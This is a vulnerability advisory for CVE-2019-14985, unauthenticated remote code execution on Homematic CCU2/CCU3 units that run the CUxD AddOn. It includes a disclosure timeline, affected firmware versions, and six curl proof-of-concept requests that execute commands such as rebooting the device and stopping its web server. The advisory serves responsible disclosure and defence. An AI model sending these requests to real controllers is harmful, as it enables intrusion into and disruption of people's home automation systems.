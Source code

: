 ```yaml
---
layout: post
title:  "CVE-2019-14985 eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage"
date:   2019-08-13 20:15:01 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-14985
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 13.08.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Vendor patch: N.A.
- Addon itself:
  - Developer of 'CUxD' AddOn contacted: 02.04.2019
  - Developer of 'CUxD' AddOn confirmation: 04.04.2019
  - 'CUxD' AddOn patch: N.A.
  - Affected 'CUxD' AddOn version: 2.3.3 and prior
- Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15 tested
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7, 3.47.10, 3.47.15 tested

# Background

From [ELVjournal 06/2014](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-f%C3%BCr-die-HomeMatic%C2%AE-CCU-Teil-1/x.aspx/cid_726/detail_49667) translated:<br>
The Homematic additional software CUx-Daemon (short CUxD) is a universal interface between the Homematic central unit and components of other home control or SmartHome systems. These include the ELV FS20, FHT, HMS and EM/ESA systems, but also components of the EnOcean system and much more. By integrating these products, which are actually incompatible, the scope of the Homematic System can be extended beyond borders. In a multi-part article series we want to present CUxD, installations and possible uses in more detail.

From [ELVjournal 02/2015](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-fuuml;r-die-HomeMatic%C2%AE-CCU-Teil-3/x.aspx/cid_726/detail_50496) translated:<br>
The CUxD device Exec serves as a replacement for the undocumented and not very stable "system.exec()" function of the CCU, which can be used to start arbitrary processes on the Homematic central.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www and the internal device usage, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in CCU firmware, if 'CUxD' AddOn is installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented URL ending with ".exe" if lighttpd proxy.conf is not protected against remote call of "*.exe" URLs:<br>

```
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```
2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984) or other popular AddOns like<br>
[HM-Print](https://github.com/litti/hm-print/issues/4),
<br>[HM-Email](https://github.com/jens-maus/hm_email/issues/11) or<br>
[Script Parser](https://github.com/litti/scriptparser/issues/4):<br>


```
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```

# CVE

[CVE-2019-14985](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14985)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
